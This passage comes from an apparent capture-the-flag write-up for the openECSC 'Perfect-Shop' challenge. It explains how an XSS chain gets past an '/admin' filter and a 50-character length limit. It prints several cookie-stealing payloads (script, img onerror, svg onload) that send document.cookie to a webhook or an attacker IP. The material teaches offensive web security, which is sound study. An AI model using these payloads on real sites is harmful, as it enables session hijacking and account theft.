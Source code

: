 One very convenient thing is that if you decide to insert an unused query parameter in the request, it will simply be sent to the server and not used. This means that you can send a completely random parameter with the value `/admin` to skip any kind of sanitization without having to modify the payload in some convoluted way.

So, if before in the reporting phase you sent `id=1/../../search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=openECSC`, now you can send something similar to `id=1/../../search?lol=/admin&q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=/admin`.

Note how I had to use one `/admin` to bypass the filter when communicating with the bot and another to bypass the filter when tricking the bot into performing a search in the related endpoint.

Of course, starting such a chain (?) means properly handling URL encoding to ensure that the parameters are correctly spread between the POST made to the report endpoint (to which the parameters `id` and `message` will be sent) and the request made by the bot to the search endpoint (to which the necessary parameter `search` and the dummy parameter `lol` will be sent).

Once the URL encoding is correctly applied, the result should be this: `id=1/../../search%3flol%3d"/admin"%26q%3d<script>window.location%253d"https%253a//webhook.site/[REDACTED]%253d"%252bdocument.cookie</script>&message=/admin`.

Since it's not excluded by the filter, it will be necessary to bypass the filter also in the report endpoint. To do this, simply add any query parameter with the value `/admin` or `'/admin'` in the report URL. In Burp Suite, the final payload will be:

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/PayloadNoLenght.png" alt="Final payload without length filter">

By doing this, you should again get the flag on the webhook as before. Now there's one last obstacle to overcome...

#### Last Step: Length Filter Bypass
This step didn't require any rocket science. Let's say I simply aimed to find the shortest possible payload with the same philosophy as the previous ones. For completeness, I'll add a subsection with the various things I tried during the competition.

##### What I Tried During the Competition
- First of all, I tried several times to exploit [unicode normalization](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html), with a payload like [`<script src=//ﬀﬀ.pw>`](https://jlajara.gitlab.io/XSS_20_characters), but it seemed useless to me because it wouldn't have allowed me to exfiltrate the cookie (which is absolutely not true) since I wouldn't have been able to append the contents of `document.cookie`, as the use of `src` alone wouldn't have allowed me to execute JavaScript code;

- I tried using `onerror` like this: `<img src/onerror=this.src='https://[IP]/'+document.cookie>`, but it still went beyond the allowed 50 characters;

- I found a way to not specify the protocol, resulting in `<img src/onerror=this.src='//[IP]/'+document.cookie>`. Still way too long.

- I tried changing the tag, first with the script tag `<script>location='//[IP]/'+document.cookie`, where `location` is a shortcut to access `window location`, but I realized that the payload wouldn't work unless I closed the tag.

- Again, this time with `<svg onload=location='//[IP]/'+document.cookie>`, but with the IP, I would have still exceeded the character limit by a few.
